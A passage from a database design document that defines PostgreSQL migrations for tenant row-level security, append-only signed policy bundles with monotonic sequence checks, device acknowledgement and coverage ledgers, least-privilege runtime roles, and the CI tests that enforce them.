-- RLS on the tenant-scoped pair. The DP release job runs per tenant under
-- set_local_tenant — it composes one tenant's budget, so it HAS a tenant
-- context and gets no bypass. Publication tables carry no tenant_id: RLS on
-- them would be decorative, and decorative RLS is the estate failure this
-- schema exists to not repeat.
DO $$
DECLARE t text;
BEGIN
  FOREACH t IN ARRAY ARRAY['tenant_privacy_budgets','epsilon_ledger'] LOOP
    EXECUTE format('ALTER TABLE %I ENABLE ROW LEVEL SECURITY', t);
    EXECUTE format('ALTER TABLE %I FORCE ROW LEVEL SECURITY', t);
    EXECUTE format('DROP POLICY IF EXISTS tenant_isolation ON %I', t);
    EXECUTE format(
      'CREATE POLICY tenant_isolation ON %I '
      'USING (tenant_id = NULLIF(current_setting(''app.tenant_id'', true), '''')::uuid) '
      'WITH CHECK (tenant_id = NULLIF(current_setting(''app.tenant_id'', true), '''')::uuid)', t);
  END LOOP;
END $$;

DO $$
BEGIN
  IF EXISTS (SELECT 1 FROM pg_roles WHERE rolname = 'intel_app') THEN
    GRANT SELECT, INSERT ON epsilon_ledger TO intel_app;          -- the per-tenant DP release path; append-only by grant
    GRANT SELECT ON tenant_privacy_budgets, artifact_publications, publication_spans TO intel_app;
  END IF;
  IF EXISTS (SELECT 1 FROM pg_roles WHERE rolname = 'mark1_federation_worker') THEN
    GRANT SELECT ON org_verification TO mark1_federation_worker;
    GRANT SELECT, INSERT, UPDATE ON publication_review_queue TO mark1_federation_worker;   -- UPDATE: recording the human's decision
    GRANT SELECT, INSERT ON artifact_publications, publication_spans, publication_span_producers TO mark1_federation_worker;
  END IF;
END $$;

COMMIT;

-- ROLLBACK (run manually if needed):
-- BEGIN;
--   DROP TRIGGER IF EXISTS epsilon_budget_gate ON epsilon_ledger;
--   DROP FUNCTION IF EXISTS trg_epsilon_budget();
--   DROP TABLE IF EXISTS epsilon_ledger;
--   DROP TABLE IF EXISTS tenant_privacy_budgets;
--   DROP TRIGGER IF EXISTS km_publication_gate ON artifact_publications;
--   DROP FUNCTION IF EXISTS trg_km_publication_gate();
--   DROP TABLE IF EXISTS publication_span_producers;
--   DROP TABLE IF EXISTS publication_spans;
--   DROP TABLE IF EXISTS artifact_publications;
--   DROP TABLE IF EXISTS publication_review_queue;
--   DROP TYPE IF EXISTS review_state;
--   DROP TABLE IF EXISTS org_verification;
-- COMMIT;
```

## Policy bundles

The edge's anti-rollback check (monotonic seq, `mark1-policy` crate) is only as good as the server's promise never to mint a regression. That promise is a table shape: the bundle catalog is append-only, the per-`(tenant, channel)` head is a locked row (the `receipt_chain_head` pattern from `ro_012`, reused because it already survived production), and the publishing trigger admits exactly `head_seq + 1`. A regression or a gap is not a bug to detect — it is an INSERT that cannot commit. The ACK ledger is the other half of distribution: the edge reports which seq it verified and activated, and the canary query below is the only input the rollout controller trusts, because "we pushed it" is a claim and "the device ACKed it" is a record.

```sql
-- m1_009_policy_bundles.sql
-- The bundle catalog + per-(tenant,channel) heads + the device ACK ledger.
-- PolicyBundle v1 bodies are canonical CBOR, signed section-split, carrying
-- NO command strings and NO code (decode-time rejection at the edge); this
-- schema stores, sequences and proves them — it never interprets them.

BEGIN;

CREATE TABLE IF NOT EXISTS policy_bundles (
  tenant_id     uuid NOT NULL REFERENCES tenants(id) ON DELETE RESTRICT,
  -- 'canary' | 'stable' | agent-specific channels. text, not enum: adding a
  -- channel is a rollout decision, not a schema migration.
  channel       text NOT NULL,
  seq           bigint NOT NULL CHECK (seq >= 1),   -- 1-based; the head row's 0 means "nothing published yet"
  -- The exact signed bytes. bytea, not jsonb-of-decoded-CBOR: the edge verifies
  -- a signature over BYTES, and storing anything but those bytes invites a
  -- canonicalization mismatch between what we signed and what we serve.
  body_cbor     bytea NOT NULL,
  body_sha256   bytea NOT NULL CHECK (octet_length(body_sha256) = 32),
  prev_hash     bytea NOT NULL CHECK (octet_length(prev_hash) = 32),  -- chains to seq-1's body_sha256; genesis chains to 32 zero bytes
  max_age       interval NOT NULL,                  -- past this, a fail-static edge falls to conservative built-in defaults
  -- Section-split signatures: one per bundle section so a verify-only key
  -- cannot sign routes. jsonb {section: {sig, key_id}} because the section set
  -- is the bundle format's to grow, not this table's.
  signatures    jsonb NOT NULL,
  signing_key_id text NOT NULL,                     -- the primary key id, denormalized for rotation queries
  -- Transparency-log inclusion: the log's index plus the audit path the edge
  -- verifies. NOT NULL both — an unlogged bundle must be unpublishable, because
  -- a bundle outside the log is invisible to split-view detection.
  tlog_index    bigint NOT NULL CHECK (tlog_index >= 0),
  tlog_proof    jsonb  NOT NULL,
  published_at  timestamptz NOT NULL DEFAULT now(),
  receipt_id    uuid NOT NULL,                      -- bundle publication is per-event receipted (C13)
  PRIMARY KEY (tenant_id, channel, seq)             -- THE uniqueness that makes one (tenant,channel,seq) mean one bundle forever
);

-- The head: one locked row per (tenant, channel) — ro_012's chain-head pattern.
-- Not a sequence: a sequence survives rollback (gaps) and cannot be read
-- transactionally with the row it guards.
CREATE TABLE IF NOT EXISTS bundle_channel_heads (
  tenant_id  uuid   NOT NULL REFERENCES tenants(id) ON DELETE RESTRICT,
  channel    text   NOT NULL,
  head_seq   bigint NOT NULL DEFAULT 0 CHECK (head_seq >= 0),
  head_hash  bytea  NOT NULL DEFAULT '\x0000000000000000000000000000000000000000000000000000000000000000'::bytea
             CHECK (octet_length(head_hash) = 32),
  updated_at timestamptz NOT NULL DEFAULT now(),
  PRIMARY KEY (tenant_id, channel)
);

-- THE CONSTRAINT THAT MAKES A SEQ REGRESSION IMPOSSIBLE. FOR UPDATE serializes
-- publishers per channel; NEW.seq must be exactly head+1 (no regressions AND no
-- gaps — a gap is a regression the edge cannot distinguish from censorship);
-- prev_hash must chain to the recorded head. The head row advances in the same
-- transaction, so there is no window in which two publishers both see head N.
CREATE OR REPLACE FUNCTION trg_bundle_seq_monotonic() RETURNS trigger
LANGUAGE plpgsql AS $$
DECLARE h bundle_channel_heads;
BEGIN
  INSERT INTO bundle_channel_heads (tenant_id, channel)
       VALUES (NEW.tenant_id, NEW.channel)
  ON CONFLICT (tenant_id, channel) DO NOTHING;          -- first publish creates the head at 0
  SELECT * INTO h FROM bundle_channel_heads
   WHERE tenant_id = NEW.tenant_id AND channel = NEW.channel FOR UPDATE;
  IF NEW.seq <> h.head_seq + 1 THEN
    RAISE EXCEPTION 'bundle seq must be % for (%,%), got % — regressions and gaps are unrepresentable',
      h.head_seq + 1, NEW.tenant_id, NEW.channel, NEW.seq USING ERRCODE = 'check_violation';
  END IF;
  IF NEW.prev_hash <> h.head_hash THEN
    RAISE EXCEPTION 'bundle prev_hash does not chain to head for (%,%)', NEW.tenant_id, NEW.channel
      USING ERRCODE = 'check_violation';
  END IF;
  UPDATE bundle_channel_heads
     SET head_seq = NEW.seq, head_hash = NEW.body_sha256, updated_at = now()
   WHERE tenant_id = NEW.tenant_id AND channel = NEW.channel;
  RETURN NEW;
END $$;

DROP TRIGGER IF EXISTS bundle_seq_monotonic ON policy_bundles;
CREATE TRIGGER bundle_seq_monotonic
  BEFORE INSERT ON policy_bundles
  FOR EACH ROW EXECUTE FUNCTION trg_bundle_seq_monotonic();

-- Published bundles are immutable evidence: append-only three ways, like ro_012.
CREATE OR REPLACE FUNCTION trg_bundles_append_only() RETURNS trigger
LANGUAGE plpgsql AS $$
BEGIN
  RAISE EXCEPTION 'policy_bundles is append-only: a bad bundle is superseded by seq+1, never edited'
    USING ERRCODE = 'check_violation';
END $$;
DROP TRIGGER IF EXISTS bundles_no_update_delete ON policy_bundles;
CREATE TRIGGER bundles_no_update_delete
  BEFORE UPDATE OR DELETE ON policy_bundles
  FOR EACH ROW EXECUTE FUNCTION trg_bundles_append_only();
REVOKE UPDATE, DELETE, TRUNCATE ON policy_bundles FROM PUBLIC;

-- (2) The ACK ledger: which device verified-and-activated which seq. One row
-- per (device, channel, seq) — a device re-ACKing after restart upserts, never
-- double-counts.
CREATE TABLE IF NOT EXISTS bundle_acks (
  tenant_id   uuid NOT NULL,
  channel     text NOT NULL,
  seq         bigint NOT NULL,
  device_id   uuid NOT NULL REFERENCES m1_devices(id) ON DELETE RESTRICT,  -- ACK history proves what a revoked device was running
  acked_at    timestamptz NOT NULL DEFAULT now(),
  -- 08 §3.2's vocabulary VERBATIM. A failed verify is an ACK too — silence and
  -- refusal must be distinguishable to the canary — but the distinction this
  -- column used to draw itself ('verified_active' | 'verify_failed' |
  -- 'stale_rejected') is now `reject_code`, which is strictly more expressive:
  -- M1E-3001/3003/3005 are the verify failures and M1E-3002 is the stale one,
  -- while 'partial' had no representation in the old vocabulary at all. Two
  -- vocabularies would need a mapping, and 05 §4.2 assigns the ACK contract to
  -- 08 — so the ledger stores 08's, and there is nothing left to map.
  result           text NOT NULL,
  -- BundleAck.bundle_hash: 32 raw bytes, SHA-256 over the bundle's canonical
  -- bytes (05 §4.4), comparable to policy_bundles.body_sha256. Stored, not
  -- discarded, because an ACK claiming a seq whose body it never saw is only
  -- detectable against the hash it reports.
  bundle_hash      bytea NOT NULL,
  -- 08 §10.3 skip-and-retain. 05 §4.3(b) counts `partial` off THIS column, so
  -- it is a rollout-control input, not diagnostics.
  sections_skipped text[] NOT NULL DEFAULT '{}',
  -- 08 §9 policy error codes. NULL unless result = 'rejected'. 05 §4.3(a) halts
  -- an entire rollout on a single 'M1E-3005' — a command string that reached an
  -- edge decoder — which is why it is a column and not a log line.
  reject_code      text,
  -- 05 §4.3: "the ledger row adds device_id, edge_version, acked_at". A section
  -- skipped by one build and applied by the next is a version story, not a
  -- bundle story, and without this column the two are indistinguishable.
  edge_version     text NOT NULL,
  PRIMARY KEY (tenant_id, channel, device_id, seq),
  FOREIGN KEY (tenant_id, channel, seq) REFERENCES policy_bundles (tenant_id, channel, seq) ON DELETE RESTRICT, -- an ACK of a nonexistent bundle is an attack signal, not a row
  CONSTRAINT bundle_acks_hash_len CHECK (octet_length(bundle_hash) = 32),
  CONSTRAINT bundle_acks_result   CHECK (result IN ('applied', 'rejected', 'partial')),
  -- Each result asserts the presence or absence of its own evidence. Without
  -- this, an 'applied' row carrying a reject_code and a 'partial' row skipping
  -- nothing both store cleanly, and 05 §4.3's halt arithmetic counts them.
  CONSTRAINT bundle_acks_result_evidence CHECK (
    CASE result
      WHEN 'applied'  THEN reject_code IS NULL     AND cardinality(sections_skipped) = 0
      WHEN 'rejected' THEN reject_code IS NOT NULL AND cardinality(sections_skipped) = 0
      WHEN 'partial'  THEN reject_code IS NULL     AND cardinality(sections_skipped) > 0
    END
  ),
  -- Fail-closed second layer beneath ingest's own vocabulary check on
  -- BundleAck.sections_skipped: a typo'd or attacker-chosen section name cannot
  -- perturb the >20% halt denominator, because it cannot be stored. The six are
  -- the PolicyBundle sections, fixed by this document's CDDL.
  CONSTRAINT bundle_acks_sections_known CHECK (
    sections_skipped <@ ARRAY['verify','route','memory','cortex','gates','agent_maps']::text[]
  )
);

CREATE INDEX IF NOT EXISTS ix_acks_rollout ON bundle_acks (tenant_id, channel, seq, result);

-- The 05 §4.3(a) tripwire: "one occurrence is one too many", evaluated every
-- 5-minute tick across every tenant. A partial index makes that scan cost
-- proportional to the number of hits, which in a healthy fleet is zero.
CREATE INDEX IF NOT EXISTS ix_acks_command_string ON bundle_acks (tenant_id, channel, seq)
  WHERE reject_code = 'M1E-3005';

-- THE CANARY QUERY. policy-dist promotes canary -> stable on this and nothing
-- else. Denominator = devices seen in 24h (a dark device can't ACK and must not
-- count against the rollout); numerator = distinct devices whose LATEST ack on
-- the channel is the head AND applied. Promotion rule in controld (05 §4.3
-- step 2): head_ratio >= 0.9 AND rejected = 0, sustained for the soak window.
-- `partial` is deliberately absent from the numerator: 05 §4.3(b) makes a
-- skipped section count as NON-adoption, so a partial ACK must not widen a
-- rollout even though it is a successful verify.
--
--   WITH latest AS (
--     SELECT DISTINCT ON (a.device_id) a.device_id, a.seq, a.result
--       FROM bundle_acks a
--      WHERE a.tenant_id = $1 AND a.channel = 'canary'
--      ORDER BY a.device_id, a.acked_at DESC
--   )
--   SELECT h.head_seq,
--          count(d.id)                                                            AS active_devices,
--          count(l.device_id) FILTER (WHERE l.seq = h.head_seq
--                                       AND l.result = 'applied')                 AS on_head,
--          count(l.device_id) FILTER (WHERE l.result = 'rejected')                AS rejected,
--          count(l.device_id) FILTER (WHERE l.result = 'partial')                 AS partial,
--          round(count(l.device_id) FILTER (WHERE l.seq = h.head_seq
--                                       AND l.result = 'applied')::numeric
--                / nullif(count(d.id), 0), 4)                                     AS head_ratio
--     FROM bundle_channel_heads h
--     JOIN devices d ON d.tenant_id = h.tenant_id
--                   AND d.revoked_at IS NULL
--                   AND d.last_seen_at > now() - interval '24 hours'
--     LEFT JOIN latest l ON l.device_id = d.id
--    WHERE h.tenant_id = $1 AND h.channel = 'canary'
--    GROUP BY h.head_seq;

-- RLS: canonical form on all three; bundles and acks take writes.
DO $$
DECLARE t text;
BEGIN
  FOREACH t IN ARRAY ARRAY['policy_bundles','bundle_channel_heads','bundle_acks'] LOOP
    EXECUTE format('ALTER TABLE %I ENABLE ROW LEVEL SECURITY', t);
    EXECUTE format('ALTER TABLE %I FORCE ROW LEVEL SECURITY', t);
    EXECUTE format('DROP POLICY IF EXISTS tenant_isolation ON %I', t);
    EXECUTE format(
      'CREATE POLICY tenant_isolation ON %I '
      'USING (tenant_id = NULLIF(current_setting(''app.tenant_id'', true), '''')::uuid) '
      'WITH CHECK (tenant_id = NULLIF(current_setting(''app.tenant_id'', true), '''')::uuid)', t);
  END LOOP;
END $$;

DO $$
BEGIN
  -- controld.policy-dist serves and ACKs under the request tenant's GUC;
  -- intel's policy-compiler publishes the same way. Nobody gets UPDATE/DELETE
  -- on the catalog — the append-only REVOKE above outranks these.
  IF EXISTS (SELECT 1 FROM pg_roles WHERE rolname = 'controld_app') THEN
    GRANT SELECT ON policy_bundles, bundle_channel_heads TO controld_app;
    GRANT SELECT, INSERT ON bundle_acks TO controld_app;
  END IF;
  IF EXISTS (SELECT 1 FROM pg_roles WHERE rolname = 'intel_app') THEN
    GRANT SELECT, INSERT ON policy_bundles TO intel_app;
    GRANT SELECT, INSERT, UPDATE ON bundle_channel_heads TO intel_app;  -- UPDATE: the head advance inside the publish trigger
  END IF;
END $$;

COMMIT;

-- ROLLBACK (run manually if needed):
-- BEGIN;
--   DROP TABLE IF EXISTS bundle_acks;
--   DROP TRIGGER IF EXISTS bundles_no_update_delete ON policy_bundles;
--   DROP TRIGGER IF EXISTS bundle_seq_monotonic ON policy_bundles;
--   DROP FUNCTION IF EXISTS trg_bundles_append_only();
--   DROP FUNCTION IF EXISTS trg_bundle_seq_monotonic();
--   DROP TABLE IF EXISTS policy_bundles;
--   DROP TABLE IF EXISTS bundle_channel_heads;
-- COMMIT;
```

## Coverage

A TVO number computed over a window where capture was off for an afternoon is a lie with a decimal point. Coverage makes every gap attributable: the raw store is the transition log (mirroring the receipted `CoverageTransition` M1P events one-to-one, so ledger and Postgres can be reconciled row-by-row), and the coverage state of any instant is derivable — covered iff the last transition on that `(device, workspace)` surface is `enable` or `bypass_end`. Time before a surface's first `enable` is uncovered *and* attributed as `never_enabled`; there is deliberately no "assumed covered" state, for the same reason the sweeper has no "assumed clean" one. The band is computed, never stored on its own authority: `tvo_reports.coverage_band` is a generated column over the stored ratio, and guarantee-grade issuance below the floor is a CHECK, not a code review comment.

**`CoverageTransition` is DIAGNOSTIC durability class and per-event receipted, both at once.** The two look contradictory and are not: *receipted* is about proof (`receipt_id NOT NULL` below, one receipt per transition, so any gap is provable to a customer offline), *billing-grade* is about a spool-full stall reaching a developer's keystroke. **The billing-grade set is closed at exactly `{usage, verdict_event, receipt_checkpoint}` (§6) and `CoverageTransition` is not in it** — a transition is emitted precisely when capture is already degrading, and blocking the agent to durably record that capture is degrading is the failure mode inverting itself. The band's honesty does not depend on the class: a shed transition still narrows the band, because the shed is itself a `Dropped{}` row (§3) and `Dropped{}` accounting is the second, independent narrowing term. Anyone re-deriving "receipted ⇒ billing-grade" from this table gets the closure above instead.

```sql
-- m1_010_coverage.sql
-- Coverage transitions + the derived band every TVO report must carry
-- (plan compliance point 7). The transition log is the ground truth; bands
-- are arithmetic over it, recomputable by anyone holding the receipts.

BEGIN;

DO $$
BEGIN
  IF NOT EXISTS (SELECT 1 FROM pg_type WHERE typname = 'coverage_kind') THEN
    -- Four kinds, not a boolean: 'disable' (mark1 off / workspace un-enrolled)
    -- and 'bypass_start' (MARK1_DISABLE=1, kill-switch) are different facts
    -- with different contractual weight, even though both open a gap.
    CREATE TYPE coverage_kind AS ENUM ('enable', 'disable', 'bypass_start', 'bypass_end');
  END IF;
  IF NOT EXISTS (SELECT 1 FROM pg_type WHERE typname = 'coverage_band') THEN
    -- 'A' >= 0.98, 'B' >= 0.90, 'C' >= 0.75, else 'insufficient'. An enum, not
    -- text, because the guarantee CHECK below compares against it and a typo'd
    -- band must be unrepresentable.
    CREATE TYPE coverage_band AS ENUM ('A', 'B', 'C', 'insufficient');
  END IF;
END $$;

CREATE TABLE IF NOT EXISTS coverage_transitions (
  id               bigint GENERATED ALWAYS AS IDENTITY PRIMARY KEY, -- bigint identity, not uuid: the band query orders by (occurred_at, id) and an insertion-ordered tiebreaker is the point
  tenant_id        uuid NOT NULL REFERENCES tenants(id) ON DELETE RESTRICT,
  device_id        uuid NOT NULL REFERENCES m1_devices(id) ON DELETE RESTRICT, -- a revoked device's gaps still count against its tenant's band
  -- Per-tenant HMAC of the workspace root path: identifies the surface without
  -- storing a path (part 1: evidence carries no paths).
  workspace_digest bytea NOT NULL CHECK (octet_length(workspace_digest) = 32),
  kind             coverage_kind NOT NULL,
  occurred_at      timestamptz NOT NULL,
  event_id         uuid NOT NULL UNIQUE,  -- the M1P CoverageTransition event this row mirrors; UNIQUE = at-least-once ingest cannot double-count a gap
  -- Mirrors CoverageTransition.reason_code VERBATIM. This row and that event are
  -- reconciled one-by-one on event_id, so the two vocabularies must be the same
  -- vocabulary or the reconciliation compares strings that can never match.
  -- The set is 04 §2.7's, and 04 §2.7 is its only authority:
  --   'mark1_off' | 'disk_hard_stop' | 'user_enable' | 'proxy_bypass'
  --   | 'proxy_failed' | 'unsupported_agent_version' | 'transcript_retention_gap'
  -- Deliberately NOT a CHECK or an enum: reason_code is a proto `string` for the
  -- same reason dropped_reason is LowCardinality and not Enum8 -- codes grow
  -- additively inside m1p.v1, and a new one must land as data, not as a
  -- migration that a running edge cannot wait for.
  reason           text NOT NULL DEFAULT '', -- '' not NULL so it can sit in indexes without NULL surprises
  receipt_id       uuid NOT NULL           -- NOT NULL because coverage transitions are per-event receipted (C13): every gap is attributable AND provable. Receipted, and still DIAGNOSTIC durability class — see the paragraph above this block
);

CREATE INDEX IF NOT EXISTS ix_coverage_surface
  ON coverage_transitions (tenant_id, device_id, workspace_digest, occurred_at, id);

-- TVO reports: the Postgres row a customer-facing report is issued from (the
-- numbers themselves come from ClickHouse through the query choke; this row is
-- the receipted issuance record).
CREATE TABLE IF NOT EXISTS tvo_reports (
  id              uuid PRIMARY KEY DEFAULT gen_random_uuid(),
  tenant_id       uuid NOT NULL REFERENCES tenants(id) ON DELETE RESTRICT,
  window_start    timestamptz NOT NULL,
  window_end      timestamptz NOT NULL CHECK (window_end > window_start),
  cost_basis      text NOT NULL CHECK (cost_basis IN ('usd', 'quota')),  -- C9/knee: a number without its basis is not a number
  coverage_ratio  numeric(6,5) NOT NULL CHECK (coverage_ratio >= 0 AND coverage_ratio <= 1),
  -- THE BAND, derived — generated, not written, so a report cannot claim a band
  -- its own stored ratio contradicts.
  coverage_band   coverage_band NOT NULL GENERATED ALWAYS AS (
    CASE
      WHEN coverage_ratio >= 0.98 THEN 'A'::coverage_band
      WHEN coverage_ratio >= 0.90 THEN 'B'::coverage_band
      WHEN coverage_ratio >= 0.75 THEN 'C'::coverage_band
      ELSE 'insufficient'::coverage_band
    END
  ) STORED,
  guarantee_grade boolean NOT NULL DEFAULT false,
  body            jsonb NOT NULL,          -- the report as issued: TVO, waste taxonomy, per-task rollups
  issued_at       timestamptz NOT NULL DEFAULT now(),
  receipt_id      uuid NOT NULL,
  -- THE FLOOR. Guarantee-grade issuance below band A is unrepresentable — the
  -- plan's "refuse issuance below the floor" as a constraint, not a policy.
  CONSTRAINT guarantee_needs_band_a CHECK (NOT guarantee_grade OR coverage_ratio >= 0.98)
);

-- THE BAND QUERY. Computes coverage_ratio for tenant $1 over [$2, $3).
-- Semantics, stated once: a surface is covered from an 'enable'/'bypass_end'
-- until its next transition; the denominator is the union of each surface's
-- [first_enable, window_end) clamped to the window — so a surface enabled on
-- Wednesday does not owe coverage for Monday, but a surface that went dark
-- Wednesday owes every second until window_end. Runs under the tenant GUC;
-- RLS bounds it even if the WHERE clause were dropped.
--
--   WITH tx AS (
--     SELECT device_id, workspace_digest, occurred_at,
--            kind IN ('enable', 'bypass_end') AS covered,
--            lead(occurred_at, 1, $3)
--              OVER (PARTITION BY device_id, workspace_digest
--                    ORDER BY occurred_at, id)               AS next_at
--       FROM coverage_transitions
--      WHERE tenant_id = $1 AND occurred_at < $3             -- includes pre-window rows: they carry state INTO the window
--   ),
--   clamped AS (
--     SELECT covered,
--            greatest(occurred_at, $2) AS s,
--            least(next_at, $3)        AS e
--       FROM tx
--      WHERE next_at > $2                                    -- intervals ending before the window contribute nothing
--   )
--   SELECT coalesce(
--            sum(extract(epoch FROM e - s)) FILTER (WHERE covered)
--            / nullif(sum(extract(epoch FROM e - s)), 0),
--          0)::numeric(6,5) AS coverage_ratio
--     FROM clamped
--    WHERE e > s;
--
-- A zero-row result (no transitions ever) yields ratio 0 via the coalesce:
-- "never enabled" is band 'insufficient', not a division error and never a pass.

-- RLS: canonical form; both tables take writes.
DO $$
DECLARE t text;
BEGIN
  FOREACH t IN ARRAY ARRAY['coverage_transitions','tvo_reports'] LOOP
    EXECUTE format('ALTER TABLE %I ENABLE ROW LEVEL SECURITY', t);
    EXECUTE format('ALTER TABLE %I FORCE ROW LEVEL SECURITY', t);
    EXECUTE format('DROP POLICY IF EXISTS tenant_isolation ON %I', t);
    EXECUTE format(
      'CREATE POLICY tenant_isolation ON %I '
      'USING (tenant_id = NULLIF(current_setting(''app.tenant_id'', true), '''')::uuid) '
      'WITH CHECK (tenant_id = NULLIF(current_setting(''app.tenant_id'', true), '''')::uuid)', t);
  END LOOP;
END $$;

-- Transitions are evidence: append-only at the privilege layer.
REVOKE UPDATE, DELETE, TRUNCATE ON coverage_transitions FROM PUBLIC;

DO $$
BEGIN
  IF EXISTS (SELECT 1 FROM pg_roles WHERE rolname = 'controld_app') THEN
    GRANT SELECT, INSERT ON coverage_transitions TO controld_app;  -- ingest mirrors CoverageTransition events; append-only by grant
  END IF;
  IF EXISTS (SELECT 1 FROM pg_roles WHERE rolname = 'intel_app') THEN
    GRANT SELECT ON coverage_transitions TO intel_app;
    GRANT SELECT, INSERT ON tvo_reports TO intel_app;              -- reports are issued, never edited; a correction is a new report
  END IF;
END $$;

COMMIT;

-- ROLLBACK (run manually if needed):
-- BEGIN;
--   DROP TABLE IF EXISTS tvo_reports;
--   DROP TABLE IF EXISTS coverage_transitions;
--   DROP TYPE IF EXISTS coverage_band;
--   DROP TYPE IF EXISTS coverage_kind;
-- COMMIT;
```

## Roles and grants

The estate's lesson, verbatim: 61 FORCE-RLS tables were decorative because every service connected as the RDS master user, which inherits `rds_superuser` and therefore BYPASSRLS — correct policies, privileged connection, zero enforcement. Mark 1 is greenfield, so the fix is structural from the first migration: migrations run as the owner (`mark1_owner`), runtime never does. Three NOBYPASSRLS request-path roles exist — `controld_app` (ingest mirror rows, ACKs, bundle serving), `adjudicator_app` (certs, gold sets), `intel_app` (artifacts, ε ledger, bundles, reports) — and exactly one BYPASSRLS worker, `mark1_federation_worker`, whose justifying jobs are nameable: the (k,m) candidate `GROUP BY` over `artifact_contributions` and the span reconstruction read over `memory_artifacts` are cross-tenant *by mathematical definition* — a per-tenant GUC loop cannot compute a `count(DISTINCT tenant_id)`. Everything else that looks cross-tenant is not: the DP release composes one tenant's budget (runs under `set_local_tenant`), and certificate expiry needs no sweeper at all because `mark1_assert_certified()` checks `expires_at` at read time. Unlike the platform's `07_service_roles.sql`, grants here are per-table, not schema-wide — the matrix is derivable by hand because every table was born in this document.

```sql
-- m1_011_roles_grants.sql
-- Runtime roles. Order-independent with m1_006–m1_010: every grant there is
-- guarded on pg_roles, and this file re-asserts the full matrix so a database
-- built in either order converges to the same one. Roles are created WITHOUT
-- passwords (a LOGIN role with no password cannot authenticate); credentials
-- are injected from Secrets Manager at cutover, never committed.

BEGIN;

DO $$
DECLARE r text;
BEGIN
  FOREACH r IN ARRAY ARRAY['controld_app', 'adjudicator_app', 'intel_app'] LOOP
    IF NOT EXISTS (SELECT 1 FROM pg_roles WHERE rolname = r) THEN
      EXECUTE format('CREATE ROLE %I LOGIN NOBYPASSRLS NOSUPERUSER NOCREATEROLE NOCREATEDB', r);
    ELSE
      -- NOSUPERUSER omitted on the converge path: RDS's master is not a true
      -- superuser and rejects ALTER ROLE ... NOSUPERUSER (same reasoning as
      -- platform 07/100a/200a).
      EXECUTE format('ALTER ROLE %I LOGIN NOBYPASSRLS NOCREATEROLE NOCREATEDB', r);
    END IF;
    EXECUTE format('GRANT USAGE ON SCHEMA public TO %I', r);
  END LOOP;

  -- THE one BYPASSRLS role. The bar (platform 07): somebody can NAME the
  -- cross-tenant job. Named: (k,m) aggregation over artifact_contributions +
  -- org collusion collapse + span reconstruction over memory_artifacts. Its
  -- write surface is entirely tenant-less tables; its cross-tenant privilege
  -- is SELECT-only.
  IF NOT EXISTS (SELECT 1 FROM pg_roles WHERE rolname = 'mark1_federation_worker') THEN
    CREATE ROLE mark1_federation_worker LOGIN BYPASSRLS NOSUPERUSER NOCREATEROLE NOCREATEDB;
  ELSE
    ALTER ROLE mark1_federation_worker LOGIN BYPASSRLS NOCREATEROLE NOCREATEDB;
  END IF;
  GRANT USAGE ON SCHEMA public TO mark1_federation_worker;
END $$;

-- The full grant matrix, re-asserted (idempotent; supersets nothing).
-- controld_app — the request path of ingest/enroll/policy-dist:
GRANT SELECT, INSERT ON coverage_transitions TO controld_app;
GRANT SELECT ON policy_bundles, bundle_channel_heads TO controld_app;
GRANT SELECT, INSERT ON bundle_acks TO controld_app;
-- adjudicator_app — certification and nothing else; it cannot see artifacts:
GRANT SELECT, INSERT, UPDATE ON gold_sets, gold_set_members, noise_certificates TO adjudicator_app;
-- intel_app — memory, DP release, policy compiler, TVO, corpus exporter:
GRANT SELECT ON noise_certificates, tenant_privacy_budgets, coverage_transitions,
                artifact_publications, publication_spans TO intel_app;
GRANT SELECT, INSERT, UPDATE ON memory_artifacts, artifact_contributions, corpus_admissions TO intel_app;
GRANT SELECT, INSERT ON epsilon_ledger, tvo_reports, policy_bundles TO intel_app;
GRANT SELECT, INSERT, UPDATE ON bundle_channel_heads TO intel_app;
-- mark1_federation_worker — cross-tenant READS, tenant-less writes:
GRANT SELECT ON memory_artifacts, artifact_contributions, org_verification TO mark1_federation_worker;
GRANT SELECT, INSERT, UPDATE ON publication_review_queue TO mark1_federation_worker;
GRANT SELECT, INSERT ON artifact_publications, publication_spans, publication_span_producers TO mark1_federation_worker;

-- What is deliberately ABSENT, because absence is the control:
--   * No role has DELETE on anything: retirement is a state change, erasure is
--     the offboarding runbook run as the owner, and everything else is evidence.
--   * adjudicator_app cannot read memory_artifacts (a certifier that can see
--     what its certificates admit can be gamed toward admitting it).
--   * mark1_federation_worker holds NOTHING on epsilon_ledger, policy_bundles,
--     gold_set_members, tvo_reports, or the receipt chain — its bypass is
--     scoped to the federation read set, so compromising the worker leaks
--     contributions, not budgets, bundles, gold labels, or money-adjacent rows.
--   * No role but the owner touches witness_heads or the receipt tables beyond
--     what m1_003 granted (covered above).

COMMIT;

-- ROLLBACK (manual, after repointing DSNs back — mirrors platform 07):
--   REVOKE ALL ON ALL TABLES IN SCHEMA public FROM controld_app, adjudicator_app,
--     intel_app, mark1_federation_worker;
--   DROP ROLE IF EXISTS controld_app, adjudicator_app, intel_app, mark1_federation_worker;
```

**CI negative tests (named in `12-testing-and-quality.md`; they run on every PR against a real Postgres seeded with two tenants).** These are what make the decorative-RLS failure *structurally* impossible to repeat — each one fails the build on the exact condition that made the estate's 61 tables inert:

| Test | Asserts |
|---|---|
| `test_bypassrls_role_inventory` | `SELECT rolname FROM pg_roles WHERE rolbypassrls` returns **exactly** `{mark1_federation_worker}` (plus RDS-internal roles on an allow-list). This is the direct guard against the estate failure: a master/`rds_superuser`-derived role appearing in a runtime path shows up here and fails the build. |
| `test_runtime_dsn_is_not_owner` | For every service DSN in the deployed config, the role is in `{controld_app, adjudicator_app, intel_app, mark1_federation_worker}`, has `rolbypassrls = false` (worker excepted), `rolsuper = false`, and **is not** `mark1_owner` and not the RDS master. Policies mean nothing if the connection is privileged past them — this pins who connects. |
| `test_all_tenant_tables_force_rls` | Every table in `public` with a `tenant_id` column has `pg_class.relrowsecurity AND relforcerowsecurity` true and a policy named `tenant_isolation` using the two-arg `current_setting` form. A new table added without RLS fails CI the day it lands, not at the audit. |
| `test_unset_guc_matches_nothing` | As each `*_app` role with **no** `app.tenant_id` set: `SELECT count(*)` = 0 on every tenant-scoped table (the `NULLIF` fail-closed property, exercised, not assumed). |
| `test_cross_tenant_write_rejected` | As `intel_app` with GUC = tenant A: an INSERT carrying `tenant_id` = B raises `new row violates row-level security policy` on every table with a `WITH CHECK` clause. |
| `test_worker_grant_surface_exact` | `information_schema.role_table_grants` for `mark1_federation_worker` equals the matrix above byte-for-byte — a blanket `GRANT ... ON ALL TABLES` (the platform 07 §5 hazard) widens the surface and fails this test. |
